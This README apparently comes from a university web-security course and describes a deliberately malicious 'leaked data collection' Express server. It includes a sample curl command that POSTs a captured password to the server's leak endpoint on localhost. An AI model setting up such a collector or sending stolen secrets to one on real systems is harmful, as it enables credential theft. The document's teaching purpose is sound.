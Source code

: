 ### Insecure Web Servers and Web Applications

# The Evil Leaked Data Collection Server

A very simple web socket server collecting data:


## Startup 

* Startup the broken node (express) server


	```
	startup.sh
	```
	
## Details

* Send any **leaked data** to the server with curl, e.g.:

	```
	curl \
    -X POST 'http://localhost:3000/info/leak' \
    -H 'Content-Type:text/plain' \
    --data "Hurray, we found the pwd:5ecUrE"

	``` 

- - -

		
Find this project at: <https://git-iit.fh-joanneum.at/Feine/omd-web-devel/-/tree/master/Part-13-Security/InsecureServers/01-LiveReporting>